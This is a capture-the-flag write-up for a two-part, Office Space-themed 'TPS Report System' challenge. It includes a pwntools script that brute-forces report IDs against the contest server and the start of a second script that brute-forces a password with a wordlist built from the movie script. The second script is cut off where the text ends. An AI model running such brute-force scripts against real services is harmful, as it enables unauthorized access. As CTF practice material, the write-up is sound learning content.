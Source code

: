 Upon connecting to the host via netcat it displayed the above message. After sending `1` as input it showed below message:
```
Enter the Report you would like to print (TPS-XXXX):

``` 
Found the right TPS report id by brute-forcing numbers from 0000-9999 via Python3 script using `pwntools`:
```python
import sys
from pwn import *

r = remote("161.35.239.216",5000)
r.recv()
r.sendline("1")
d = r.recv()

for x in range(0,9999):
    code = str(x).zfill(4)
    code = 'TPS-'+str(code)
    print('[+] Trying code : %s' % code)
    r.sendline(code)
 
    resp = r.recv().decode()
    print(resp)
    if 'Lumbergh' in resp:
        continue
    else:
        print(resp)
```
This was what I came up with and it isn't neat, it would crash whenever a TPS report ID returned some sort of valid response instead of the default `A cover sheet wasn't attached to that report` message. To complete the challenge in a rush I just adjusted the first range value to the next id in the script and kept relaunching it until I found the right ID. 

After sending TPS-8352, saw a different Error message 
```
Wrong
Report is password protected
```
The challenge was to find this ID and it was the flag.

## # TPS Report System - 2

After submitting the flag for the first one, this challenge was unlocked. This challenge required cracking the password for the report. Many even tried rockyou.txt for this but failed. Obviously it required bruteforce, and the wordlist for this was the movie script of Office Space! what I did was copied the whole transcript from [here](http://www.script-o-rama.com/movie_scripts/o/office-space-script-transcript.html) and saved in a file, split on space and sorted uniquely which generated a 3029 line wordlist :
```bash
$ cat movie.txt | tr ' ' '\n' | sort -u > wordlist.txt
$ wc -l wordlist.txt                                                            
3029 wordlist.txt
```
Next updated my previous script to bruteforce for the right password:
```python
from pwn import *

words = open('wordlist.txt').read().replace('\r','').split('\n')
r = remote("161.35.239.216",5000)
r.recv()
r.sendline("1")
d = r.recv()
r.sendline("TPS-8352")
e =r.recv().decode()
```